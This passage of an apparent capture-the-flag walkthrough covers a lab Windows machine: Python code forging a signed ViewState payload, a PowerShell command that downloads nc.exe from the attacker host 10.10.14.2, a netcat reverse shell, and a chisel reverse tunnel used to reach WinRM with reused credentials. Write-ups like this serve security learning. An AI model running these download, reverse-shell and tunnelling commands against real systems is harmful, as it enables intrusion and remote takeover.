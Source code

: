 ```
    return h.digest()

#pad payload it needs to be in the padded state to be
#to be hashed/ viewstate to make a proper hash
purevs = encrypt_vs(payload)
enmac = (hmac_vs(purevs))
raw = purevs + enmac
encoded = (raw).encode("base64").replace('\n','')
pleasesubscribe = (urllib.quote_plus(encoded))
print (pleasesubscribe) # why not lol
```

**Shell**

​	Since it seem like there are some limitation most likely i can't run new-object. well use invoke web-request to write out payload to disk then run a second command to get our shell, payload of choice is nc.exe.

```
powershell iwr 'http://10.10.14.2/nc.exe' -outfile c:\windows\system32\spool\drivers\color\nc.exe  
		-c command switch if you want
c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe 10.10.14.2 9913
```

**CLUES.BAK**

This part will have a couple of steps firstly setting up a tunnel to arkhams, localhost and gaining access to 5985. my notes say i was able to get alfreds creds to work. i remember seeing it alfred in my winrm directory. i digres, Notice the timestamps in alfreds directory. the ones changes between 8:48 to 9:33am are the newest and most interesting. Downloads has a backup folder with our prize backup.zip. 

*CHISEL*

to get chisel running well download [chiselxamd64.exe](https://github.com/jpillora/chisel/releases/download/1.3.1/chisel_windows_amd64.exe.gz), download this as well the run go <mark>go build</mark>. i renamed the binary chisel-server.

```
./chisel-server server -p 9020 --reverse -v 
.\c.exe client 10.10.14.2:9020 R:5985:127.0.0.1:5985
```

im broke and i dont have allot of the windows office crap. i was able to find a tool called pstwalker they constantly bug you for money prolly infected my system. 

" This was pretty tough to find the right tool to open the outlook file. pstwalker it will try and get you to pay for stuff but thats not needed with a little tinkering i was able to get the message. "
